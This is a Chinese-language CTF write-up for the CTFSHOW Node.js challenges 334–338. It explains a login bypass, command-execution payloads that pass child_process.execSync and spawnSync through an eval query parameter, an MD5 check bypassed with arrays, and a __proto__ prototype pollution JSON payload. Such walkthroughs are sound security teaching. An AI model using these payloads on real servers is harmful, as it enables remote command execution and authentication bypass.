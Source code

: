 ```yaml
---
title: CTFSHOW nodejs 334-338
date: 2024-08-05 16:36:39
permalink: /pages/a11a87/
categories:
  - wp
tags:
  - 
author: 
  name: ajay
  link: https://the0n3.top
---
```

# CTFSHOW nodejs 334-338

nodejs是跨平台的 JavaScript 后端语言，用于开发服务器端应用程序。它能够执行文件读取、数据库查询等服务器端操作

参考文章

[CTFSHOW-nodejs](https://blog.csdn.net/Yb_140/article/details/124510337)
[node官方文档](https://nodejs.cn/api/)
[node官方文档--子进程](https://nodejs.cn/api/child_process.html#child-process)

## web 334 审计

下载文件添加zip扩展名，解压得到两个js文件

user.js里存储了用户名，密码

![user](https://the0n3.top/medias/show-nodejs/1.png)

login.js里存放了登录的操作过程

```js
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```


关键语句，登录的用户名不能等于“CTFSHOW”,登录用户名的大写等于存放的用户名“CTFSHOW”，密码等于存放的密码“123456”


所以，name=ctfshow，pwd=123456

## web 335 命令执行

查看源码，?eval，提示get传参执行命令，类似php的eval函数

![exec](https://the0n3.top/medias/show-nodejs/2.png)

看了这个文档，带exec的应该都能直接执行命令吧(稍加思考)

```
# payload1，成功
?eval=require("child_process").execSync("ls;tac fl00g.txt");
# payload2，失败
?eval=require("child_process").exec("ls");
```


execSync可以执行，exec不能直接执行命令的原因，execSync 是同步函数，它可以直接在 require 语句后调用，并立即返回执行结果，可以直接在一行代码中调用它来执行命令并获取输出。那么同进程的其他命令执行函数也是如此？

## web 336 命令执行

上一题payload打不通了。换个函数，spawnSync()，不要直接像上一题一样写一大坨命令例如：

```
spawnSync("ls;tac flag.txt")
```

在这函数规定了似乎不允许

![spawnSync](https://the0n3.top/medias/show-nodejs/3.png)

这个函数执行不能直接输出到页面，用stdout,toString()方法打印出
来

```
?eval=require("child_process").spawnSync("tac",['fl001g.txt']).stdout.toString();
```

## web 337

关键代码，接受参数a，b。类似php的一个md5比较，数组绕过

```js
var a = req.query.a;
var b = req.query.b;
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
}
```

url?a[]=1&b[]=1


## web 338 原型链污染

查看routes目录下login.js源码

![login](https://the0n3.top/medias/show-nodejs/4.png)

补充：javascript中，**所有对象都继承自一个原型对象，原型对象增加新的属性时，其他对象都会继承**

```js
const user = {name:"cola"}
const tool = {tools:"Google"}
Object.prototype.lang = "Python"
console.log(tool.lang)
//现在，打印结果出现了tool对象不存在的属性lang，从原型对象那里继承得来
//Python
```

代码会通过copy函数，把请求的内容赋值给user对象，如果我们给__proto__原型对象添加一个新的属性来影响原型对象的属性继承，那么就可以达到secert对象的属性ctfshow='36dboy'的条件

![api](https://the0n3.top/medias/show-nodejs/6.png)

查看源码，登录接口需要传json数据

那这里就可以传一个json对象，{"__proto__":{"ctfshow":"36dboy"}}，这样就让secert继承到ctfshow=36dboy的属性